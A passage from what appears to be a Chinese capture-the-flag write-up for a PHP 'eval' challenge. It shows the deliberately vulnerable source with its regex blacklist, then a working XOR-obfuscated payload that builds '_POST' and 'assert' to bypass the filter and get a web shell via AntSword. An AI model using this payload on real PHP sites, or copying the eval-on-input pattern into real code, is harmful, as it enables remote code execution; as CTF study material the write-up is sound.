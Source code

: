 ```php
  }

  unset($blacklist);
  return false;
}

$thisfille=$_GET['thisfile'];

if(is_file($thisfille)){
  echo "You can't use inner file" . "<br>";
}
else{
  if(file_exists($thisfille)){
    if(check()){
      echo "Naaah" . "<br>";
    }else{
      eval($input);
    }
  }else{
    echo "File doesn't exist" . "<br>";
  }

}

function iterate($ass){
    foreach($ass as $hole){
        echo "AssHole";
    }
}
highlight_file(__FILE__);
?>
```

与warmup相比，这里过滤掉了

```php
$blacklist = "exit|die|eval|\[|\]|\\\|\*|`|-|\+|~|\{|\}|\"|\'";
```

然后前面的写shell的方法就不可以使用

我直接上学长给我的payload吧，tql.....

```php
input=$b=%a0%af%b0%ac%ab^%ff%ff%ff%ff%ff;$a=$$b;$c=e.n.d;$f=$c($a);$d=a.s.s.e.r.t;$d($f);&thisfile=/var
```

随便post一个参数上去，使用antsword就能getshell

```php
p=phpinfo()
```


